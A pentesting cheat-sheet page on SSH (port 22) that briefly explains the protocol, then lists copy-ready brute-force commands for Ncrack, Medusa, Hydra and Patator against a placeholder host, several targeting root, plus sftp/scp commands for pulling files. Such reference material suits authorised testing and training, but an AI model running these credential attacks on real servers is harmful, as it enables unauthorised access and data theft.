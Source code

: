 ```yaml
---
title: PORT 22/tcp - SSH
category: Services
order: 2
---
```


# Introduction

The SSH protocol works on the client/server-model. The SSH client always initiates the setup of the secure connection, and the SSH server listens for incoming connection requests (usually on TCP port 22 on the host system) and responds to them.

In the connection setup phase, the SSH server authenticates itself to the client by providing its public key. This allows the SSH client to verify that it is actually communicating with the correct SSH server (instead of an attacker that could be posing as the server).

After a successful authentication the server provides the client access to the host system. This access is governed with the user account permissions at the target host system.


# Bruteforcing Credentials

To bruteforce the login in order to find valid credentials we can use different tools:

* Ncrack
```
ncrack -U usernames.txt -P passowrds.txt ssh://10.10.10.10 -v
ncrack -u root -P passowrds.txt ssh://10.10.10.10 -v
```

* Medusa
```
medusa -h 10.10.10.10 -U usernames.txt -P passowrds.txt -M ssh
medusa -h 10.10.10.10 -u root -P passowrds.txt -M ssh
```

* Hydra
```
hydra -L usernames.txt -P passwords.txt ssh://10.10.10.10 -s 22
hydra -l root -P passwords.txt ssh://10.10.10.10 -s 22
```

* Patator
```
patator ssh_login host=10.10.10.10 user=FILE0 password=FILE1 0=users.txt  1=pass.txt -x ignore:mesg='Authentication failed'
patator ssh_login host=10.10.10.10 user=root password=FILE0 0=pass.txt -x ignore:mesg='Authentication failed'
```

# Donwload Files

To download files we can use `sftp` or `scp`:

* SFTP

Is like ftp:

```
sftp root@ip

> get file.txt
> get -r folder/
```

* SCP

```
scp root@ip:/tmp/file.txt file.txt
scp -r root@ip:/tmp/folder folder 
```
